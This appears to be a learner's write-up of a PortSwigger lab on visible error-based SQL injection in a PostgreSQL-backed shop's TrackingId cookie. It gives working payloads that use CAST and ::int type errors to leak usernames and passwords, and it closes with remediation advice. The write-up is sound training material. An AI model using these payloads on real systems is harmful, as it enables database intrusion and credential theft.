







## LAB 14 — VISIBLE ERROR-BASED SQL INJECTION

## LAB : [PortSwigger Lab 14 Link](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

## What?

**Error-based SQL Injection** in the `TrackingId` cookie on a **PostgreSQL** database. The application returns **verbose error messages** that leak the actual query and data values, allowing direct data extraction through deliberate type conversion errors.

## Where?

* **Page:** Front page of the shop
* **Method:** `GET` (cookie-based)
* **Parameter:** `TrackingId` cookie
* **No auth required**

## How did I find it?

### Step 1 — Confirm SQL injection:

* `TrackingId=xyz'` → **500 error** with verbose message showing the full backend query:

```sql id="3f6m8q"
SELECT
* FROM tracking WHERE id = 'xyz''
```



Unterminated string literal...

* The error **disclosed the full SQL query structure** and confirmed the injection point.

### Step 2 — Fix syntax and test:

* `TrackingId=xyz'--` → **200 OK** (commented out trailing quote, query is valid)
* `TrackingId=xyz' AND CAST((SELECT 1) AS int)--` → Error: "AND condition must be boolean"



* `TrackingId=xyz' AND 1=CAST((SELECT 1) AS int)--` → **200 OK** (valid boolean comparison)



## How did I verify it?

### Step 3 — Extract data with CAST error:

* `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--` → Error: invalid input syntax for type integer: "administrator" → **Username leaked: administrator**



It also checked tracking id so first remove that and again checked and its worked.



* `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--` → Error: invalid input syntax for type integer: "[PASSWORD]" → **Password leaked**




### Alternative without CAST (PostgreSQL `::` shorthand):

```plain id="8n2w5c"
'
AND 1=(SELECT password FROM users LIMIT 1)::int--
```



Same error-based leak, shorter payload.

## Why does it work?

The backend query:

```sql id="5k7r1p"
SELECT
* FROM tracking WHERE id = '[TRACKING_ID]'
```

With injection:

```sql id="1v9d4x"
SELECT
* FROM tracking WHERE id = '' AND 1=CAST((SELECT password FROM users LIMIT 1)
AS int)--'
```

* The subquery `(SELECT password FROM users LIMIT 1)` returns a **string** (e.g., `'abc123'`)
* `CAST('abc123' AS int)` tries to convert a string with letters into an integer
* PostgreSQL **fails** and throws: invalid input syntax for type integer: "abc123"
* The **actual password value** is included in the error message
* This is **deliberate error-based exfiltration** — you're not trying to make the query succeed, you're forcing it to fail in a way that leaks data

## Why removing the TrackingId value was necessary:

* Original tracking ID (`xyz`) made the payload too long → **truncated by the server**
* Truncation cut off the `--` comment → unclosed quote → different error
* Empty tracking ID (`''`) made the payload short enough to fit → full query executed → correct error leaked data

## What can an attacker do?

* Extract any string data from the database through error messages
* Dump usernames, passwords, emails, PII, or any accessible column
* Enumerate schema by forcing errors with system table queries
* No boolean signal or time delay needed — direct data leakage

## What are the conditions/limitations?

* **Verbose error messages must be enabled** and returned to the user
* The database must be **PostgreSQL** (or similar with CAST/`::` syntax)
* The `TrackingId` cookie value must fit within **length limits**
* Only **one row at a time** — use `LIMIT 1` to avoid "more than one row" errors
* The app DB user must have read access to target tables

## How should it be fixed?

**Primary:** Use **parameterized queries** so `TrackingId` is bound as data.

**Defense-in-depth:**

* Disable verbose error messages in production (generic 500 pages)
* Never expose raw SQL queries or database internals in errors
* Input validation on cookie format and length
* Strong password hashing (bcrypt/Argon2)

## What did I learn?

I learned that **error messages are a data channel**. In previous labs I tried to avoid errors; here I deliberately cause them. The `CAST(x AS int)` trick turns any string into an error that includes the string itself. I also learned that **payload length matters** — a long tracking ID can truncate the payload and break the attack. The `::int` shorthand is faster to type than `CAST(... AS int)`. Most importantly, I learned to **read error messages carefully** — they often contain more information than the application intends to reveal.

## What was the key obstacle?

**Payload truncation.** When I kept the original tracking ID value, the full payload was too long and got cut off, breaking the `--` comment and giving a different (unhelpful) error. Removing the tracking ID freed up character space and allowed the full query to execute. The lesson: **if your payload works in theory but fails in practice, check for length limits first.**
